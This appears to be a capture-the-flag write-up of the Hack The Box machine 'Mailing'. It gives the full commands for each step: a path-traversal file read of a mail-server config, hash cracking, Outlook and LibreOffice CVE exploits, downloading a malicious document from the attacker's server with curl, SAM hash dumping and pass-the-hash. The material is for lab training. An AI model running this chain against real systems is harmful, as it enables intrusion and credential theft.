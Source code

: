 ```yaml
---
title: 'HTB Mailing Writeup'
date: 2024-05-15
permalink: /posts/2024/05/HTB-Mailing-Writeup/
tags:
  - HTB
  - writeup
  - easy
---
```


A writeup of the Hack The Box machine "Mailing" with easy difficulty

<img src='/images/HTB_Mailing/Screenshot 2024-05-29 230041.png'>

**Welcome to this writeup of the HTB seasonal machine called Mailing. It is a Windows machine with easy difficulty.**

Enumeration
======
First, run a Nmap scan which gives the following results: 

<img src='/images/HTB_Mailing/Screenshot 2024-05-29 230522.png'>

We can see a webpage called mailing.htb so we put this in the /etc/hosts file with the IP of the machine: 10.10.11.14. 

This shows us the webpage > 

<img src='/images/HTB_Mailing/Screenshot 2024-05-29 230635.png'>

Next, we run a dirsearch scan to enumerate directories > 

<img src='/images/HTB_Mailing/Screenshot 2024-05-29 230719.png'>

Hmm alright. There is an /assets page and a /download.php page. 

The /assets page only shows us beautiful pictures of nature 😊 and the download page says “No file specified for download”.

<img src='/images/HTB_Mailing/Screenshot 2024-05-29 230838.png'>

After that someone requested a machine reset lol. 

<img src='/images/HTB_Mailing/Screenshot 2024-05-29 230917.png'>

Allright, so I think LFI (Local File Inclusion) is a possible entry point with this /download.php page.  

User flag
======
After some more enumeration, I could download a hMailServer.INI file via the following URL: [http://mailing.htb/download.php?file=../../../Program+Files+(x86)/hMailServer/Bin/hMailServer.INI](http://mailing.htb/download.php?file=../../../Program+Files+(x86)/hMailServer/Bin/hMailServer.INI)

This file contains the administrator password of something > 

<img src='/images/HTB_Mailing/Screenshot 2024-05-29 231035.png'>

These are hashed passwords we have to crack with hashcat > `hashcat --force -m 0 -a 0 pass.txt /usr/share/wordlists/rockyou.txt` --where –m 0 stands for a md5 hash. 

<img src='/images/HTB_Mailing/Screenshot 2024-05-29 231222.png'>

This password is for telnet access. Port 110 is the pop3 mailserver.  

With the command `telnet 10.10.11.14 110` we can connect to the mailserver. 

<img src='/images/HTB_Mailing/Screenshot 2024-05-29 231313.png'>

There are no messages sadly. But the username and password are correct. 

With the [https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability) exploit a user and a password can be obtained. 

Setup a responder listerner with: `sudo responder -I tun0 -v`

Then we run the following command > `python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password <The-password-we-obtained> --sender administrator@mailing.htb --recipient maya@mailing.htb --url "\\IP/blabla" --subject Hello`

This will give you a hash which is a password we can crack with hashcat. 

A Evil winrm can be established with: `evil-winrm -i 10.10.11.14 -u maya -p <Cracked-password>`

The user flag can be found in the Desktop directory > 

<img src='/images/HTB_Mailing/Screenshot 2024-05-29 231754.png'>

Root flag
======
After searching the directories on the machine, we discovered that Libreoffice is running an outdated version. After searching for an exploit, we can use this tool: [https://github.com/elweth-sec/CVE-2023-2255](https://github.com/elweth-sec/CVE-2023-2255) to probably gain root.

<img src='/images/HTB_Mailing/Screenshot 2024-06-10 190939.png'>

With this tool we can use the command: `python3 CVE-2023-2255.py --cmd 'net localgroup Administradores maya /add' --output 'exploit.odt'`.

<img src='/images/HTB_Mailing/Screenshot 2024-06-10 191636.png'>

We need to deliver this malicious file to the windows machine. This can be done with a python server and a curl command. > 

In a new terminal window type: `python3 –m http.server 4444`

<img src='/images/HTB_Mailing/Screenshot 2024-06-10 191756.png'>

And in our Evil-WinRM: Go the the Important Documents dir (this is a root directory).

And curl the exploit.odt file to the windows machine > `curl –o exploit.odt http://10.10.14.82:4444/exploit.odt`.

<img src='/images/HTB_Mailing/Screenshot 2024-06-10 191901.png'>

With the command `net users maya` we have a new admin local group now.

<img src='/images/HTB_Mailing/Screenshot 2024-06-10 192039.png'>

With the post exploitation tool crackmapexec, we can run this command > `crackmapexec smb 10.10.11.14 -u maya -p " <maya-admin-password> " --sam`.

This way we can obtain the localadmin user’s hash. 

<img src='/images/HTB_Mailing/Screenshot 2024-06-10 192929.png'>

We don’t have to crack the hash if we use the impacket-wmiexec tool with the command: `impacket-wmiexec localadmin@10.10.11.14 -hashes "<hash-of-administrador>"`

This gives us the root flag > 

<img src='/images/HTB_Mailing/Screenshot 2024-06-10 193311.png'>

Conclusion 
======
To pwn this machine took a lot more time than I thought. Again, searching for an entry point in the directories of the machine takes time because of the many dirs and files.  

I hope you have learned something from this writeup. 

Enjoy your day! 